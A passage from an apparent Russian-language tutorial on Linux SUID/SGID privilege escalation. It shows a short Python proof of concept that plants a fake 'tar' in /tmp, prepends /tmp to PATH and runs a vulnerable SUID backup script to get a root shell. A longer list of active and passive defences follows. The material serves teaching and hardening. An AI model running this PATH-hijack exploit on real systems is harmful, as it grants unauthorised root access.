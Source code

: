 
### Python‑скрипт

```python
import os, subprocess

# Создаём «зловредный» tar в /tmp
with open("/tmp/tar.sh", "w") as f:
    f.write("#!/bin/bash\n/bin/bash\n")
os.chmod("/tmp/tar.sh", 0o755)     # даём права +x

# Подменяем PATH
os.environ["PATH"] = "/tmp:" + os.environ.get("PATH", "")

# Запускаем уязвимый скрипт
subprocess.call(["/usr/local/bin/mybackup"])
# В результате у нас попадает интерактивный bash с root‑привилегиями
```

**Примечание:**  
- Уязвимый скрипт запускается с **root-привилегиями** из-за SUID
- Используется **относительный путь** к `tar` (небезопасно!)
- Пользователь может управлять `PATH`, а значит — **подставить вредоносную программу вместо системной**

---

## Защита от атак

### Активные меры:
- Минимизировать число неиспользуемых SUID/SGID‑файлов, удаление ненужных или замена их на аналоги без SUID/SGID
- Использовать утилиту `nosuid` при монтировании томов
- Контролировать переменные окружения (обнулять **LD_PRELOAD**, **PATH**, **IFS** перед запуском внешних программ в SUID-бинарниках)
- Задавать полный путь к исполняемым файлам в SUID-программах
- Использование Mandatory Access Control (MAC) **AppArmor / SELinux** для контроля поведения приложений и ограничения прав бинарников
- Никогда не устанавливать SUID/SGID на пользовательские скрипты
- Проверять пути в вызовах команд (`use /bin/tar` вместо `tar`)
- Использовать `secure_path` в `/etc/sudoers` и ограничение на переменные окружения

### Пассивные меры:
1. **Мониторинг логов и аудит файлов**  
   - `auditd` для слежения за вызовами `setuid/setgid`
   - регулярный запуск `AIDE`/`Tripwire` для контрольных сумм
   - регулярный аудит SUID/SGID-файлов (`auditctl`)
2. **CI/CD‑сканирование**  
   - проверять новые бинарники на наличие SUID/SGID перед деплоем
3. **Обучение администраторов**  
   – внутренние политики: когда действительно требуется SUID, а когда можно обойтись capability.  
4. **Регулярный аудит системы:**
   - Настройка cron-служб для проверки списка SUID/SGID-бинарников
5. **Обновление ПО**:
   - Установка исправлений для уязвимых бинарников:

---